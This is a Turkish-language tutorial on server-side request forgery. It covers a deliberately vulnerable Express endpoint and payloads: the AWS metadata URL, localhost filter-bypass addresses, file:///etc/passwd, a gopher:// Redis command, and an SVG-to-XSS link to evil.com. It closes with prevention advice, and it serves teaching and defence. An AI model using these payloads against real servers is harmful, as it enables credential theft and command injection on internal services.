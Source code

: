 # Server-Side Request Forgery
Bir web sunucusu, kullanıcı girdisine bağlı olarak uzak kaynakları getiriyorsa, saldırgan bu sunucuyu kendi belirlediği URL’lere istek göndermeye zorlayabilir. İlk bakışta bu çok kritik görünmese de, web uygulamasının yapılandırmasına bağlı olarak SSRF zafiyetleri çok ciddi sonuçlara yol açabilir. Ayrıca, eğer web uygulaması kullanıcıdan gelen URL şemasına veya protokolüne güveniyorsa, saldırgan URL şemasını manipüle ederek daha da istenmeyen davranışlara sebep olabilir. Örneğin, SSRF zafiyetlerinin istismarında yaygın olarak kullanılan URL şemalarından biri:
- gopher://: Belirtilen adrese rastgele byte’lar gönderebilir. Saldırgan bunu kullanarak keyfi HTTP POST istekleri gönderebilir veya SMTP sunucuları ya da veritabanları gibi diğer servislerle iletişim kurabilir.

Yaygın sömürü yolları:
- Cloud Meta Verilerine Erişim
- Sunucudaki dosyaları sızdırmak
- Ağ keşfi
- Ağdaki belirli hizmetlere paketler göndermek, genellikle başka bir sunucuda Uzaktan Komuta Yürütme elde etmek için

# SSRF Keşfi
Örnek: Bir sunucu bir URL almak için kullanıcı girişini kabul eder.
```js
const express = require('express');
const axios = require('axios');
const app = express();
const port = 3000;

app.get('/user/image', async function (req, res) {
  const imgUrl = req.body.imgUrl;
  const imageReq = await axios.get(imgUrl);
  user.updateProfileImage(imageReq.data);
  res.send(imageReq.data);
});

app.listen(port, () => {
  console.log(`Listening on http://localhost:${port}`);
});
```

saldırgan aşağıdaki gibi girdi sağlar:
```
http://169.254.169.254/latest/meta-data/
```

Bu, AWS EC2 meta veri hizmetinden hassas bilgileri alır.

# Filtreleri atlamak
```
http://localhost:80
http://localhost:22
https://localhost:443
http://127.0.0.1:80
http://127.0.0.1:22
https://127.0.0.1:443
http://0.0.0.0:80
http://0.0.0.0:22
https://0.0.0.0:443
http://[::]:80/
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]
http://[::ffff:127.0.0.1]
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
http://0/
http://127.1
http://127.0.1
```

Prefix/Suffix tabanlı bypasslar ve URL manipülasyon teknikleri için:
- https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet

# LFI ve SSRF
SSRF zafiyetlerinde, uygulamaya sağlanan URL’nin bir parçası yerel dosya sistemine erişim için kullanılabilir. Özellikle file:// şeması, web sunucusunun yerel dosyaları okumasına olanak sağlar.

Örnek olarak, sunucu imgUrl parametresini fetch etmek için kullanıyorsa, saldırgan aşağıdaki URL’yi sağlayabilir:
```
file:///etc/passwd
```

Bu, sunucudaki hassas dosyaların içeriğini döndürebilir ve uygulamanın normal işleyişi dışında information disclosure sağlar.

# Gopher Protokolü ve SSRF
Gopher, HTTP’ye benzer şekilde sunucular arasında veri iletimi için kullanılan eski bir protokoldür. SSRF zafiyetlerinde özellikle tehlikelidir, çünkü saldırganlar sadece GET/POST değil, keyfi protokoller ve ham paketler gönderebilir.

Neden tehlikeli:
- HTTP POST veya diğer protokolleri taklit edebilir.
- SMTP, Redis, gibi arka uç servisleri ile iletişim kurabilir.

## Örnek kullanım
Bir SSRF zafiyeti olan uygulama, kullanıcıdan aldığı URL’yi fetch ediyorsa, saldırgan şu URL’yi verebilir:
```
gopher://127.0.0.1:6379/_SET%20key%20123
```
Bu örnekte:
- 127.0.0.1:6379 → Redis sunucusu
- _SET key 123 → Redis komutu, Gopher protokolü üzerinden gönderiliyor

Sunucu bu isteği gönderebilir ve internal servislere komut çalıştırabilir.

Aşağıdaki hizmetler gopher tarafındandesteklenir:
- MySQL
- PostgreSQL
- FastCGI
- Redis
- SMTP
- Zabbix
- pymemcache
- rbmemcache
- phpmemcache
- dmpmemcache

Aşağıdaki tool gopher ile exploiti kolaylaştırabilir.
- https://github.com/tarunkant/Gopherus

# XSS'e yükseltme
Javascript kodu içeren bir SVG dosyası dahil ederek SSRF'yi bir XSS'ye yükseltmeyi deneyebilirsiniz.
```
https://example.com/ssrf.php?url=http://evil.com/poc.svg
```

# SSRF Önleme Yöntemleri
SSRF zafiyetlerini tamamen önlemek için uygulama seviyesinde birden fazla önlem bir arada uygulanmalıdır:
1. Kullanıcı Girdilerini Doğrulama
- Kullanıcıdan gelen URL’leri veya hostname’leri mutlaka whitelist ile kontrol edin.
- Sadece izin verilen domain veya IP’lere erişime izin verin.

2. URL Şemalarını Kısıtlama
- Sadece HTTP ve HTTPS gibi güvenli protokolleri kabul edin. 
- file://, gopher://, ftp:// gibi potansiyel tehlikeli protokolleri reddedin.

3. Dahili Kaynaklara Erişimi Kısıtlama
- Sunucunun internal network’e veya metadata servislerine doğrudan erişimi mümkün olduğunca kısıtlayın.
- Cloud ortamlarında meta-data servisini sadece gerekli servislerin kullanabileceği şekilde yapılandırın.
